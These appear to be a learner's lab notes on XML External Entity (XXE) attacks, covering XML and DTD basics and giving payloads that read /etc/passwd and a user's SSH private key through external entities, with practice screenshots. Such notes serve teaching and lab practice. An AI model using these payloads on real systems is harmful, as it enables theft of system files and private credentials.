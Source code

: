 04 - XML External Entity

# XML External Entity (XXE)

Note:
- XXE vulnerabilities attack is a vulnerability that allows attackers abuse/interfere an application's proccessing of XML data, a bit  similar to SQL injection.
- There are two types XXE attacks, in-band and out-band XXE.
- In-band XXE means attacker can receive immediate response to the XXE payload
- Out-band/blind XXE means attacker need to reflect it somewhere such as their own web/live server in order to see the response of XXE payload.


## eXtensible Markup Language (XML)

XML is a markup language that commonly used to transfer data between browser and server like json.

XML has a set of rule for encoding documents in a format that is both readable by human and machine.

### Why XML?
- Independent from programming language and platform
- XML document allows validation using DTD and Schema, free from syntax error.

### Structure of XML:

XML Prolog - Not compulsory but good practice
```
<?xml version="1.0" encoding="UTF-8"?>
```
Every XML document must contain a `ROOT` element. For example:

```
<?xml version="1.0" encoding="UTF-8"?>
<mail>
   <to>falcon</to>
   <from>feast</from>
   <subject>About XXE</subject>
   <text>Teach about XXE</text>
</mail>
```

`<mail>` is root element
`<to>`,`<from>`,`<subject>`,`<text>` are children of `<mail>`

Without root element, XML document would be considered as invalid XML. 

XML tags are case sensitive. It can also use attributes.

```
<text category="message"> attributes added </text>
```

## Document Type Definition (DTD)

A DTD defines the stucture and attributes of an XML document.

Example DTD:
```
<!DOCTYPE note [ <!ELEMENT note (to,from,heading,body)> <!ELEMENT to (#PCDATA)> <!ELEMENT from (#PCDATA)> <!ELEMENT heading (#PCDATA)> <!ELEMENT body (#PCDATA)> ]>
```

Example note that uses DTD for validation:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note SYSTEM "note.dtd">
<note>
    <to>falcon</to>
    <from>feast</from>
    <heading>hacking</heading>
    <body>XXE attack</body>
</note>
```

## XXE Payload


Example payloads:

1) Define entity called name, assign with feast. Use it on `<lastName>`
```
<!DOCTYPE replace [<!ENTITY name "feast"> ]>
 <userInfo>
  <firstName>falcon</firstName>
  <lastName>&name;</lastName>
 </userInfo>
```
2) Read file from system, `/etc/passwd`
```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///etc/passwd'>]>
<root>&read;</root>
```

## Practice

Payload 1
![2261fcc309d3f09b8b65e0dd99209572.png](./_resources/870c15daeee1430baebee8495b4d87ef.png)

Payload 2
![80a057c4fcc8c58b886c5ea6d70fbe00.png](./_resources/3f7df21b8f2d445db7f9a9948a417236.png)


> 1000 in /etc/passwd means a user account. So, ssh key should be located on /home/username/.ssh/id_rsa

Payload 2: Read SSH key

```
<?xml version="1.0"?>
<!DOCTYPE root [<!ENTITY read SYSTEM 'file:///home/falcon/.ssh/id_rsa'>]>
<root>&read;</root>
```

![c2cd7114f3cae63840211ecf2f92a5d6.png](./_resources/e97fedec4521426595e39e245f2936bb.png)


## Question

### XML
![8ce58954700802ca5f8dd2efcd3f45d0.png](./_resources/45e03beafc3347fca6b5a8d64921ca15.png)

### DTD
![d8501f7b3b80080785d93b1c5af8fbed.png](./_resources/51edff5108434f6da4d827314b242a5d.png)

### Exploiting

![3e2bfa1f441861816e8d9177eec73157.png](./_resources/cd0ed8bbb655487c8bf97bb5942c2569.png)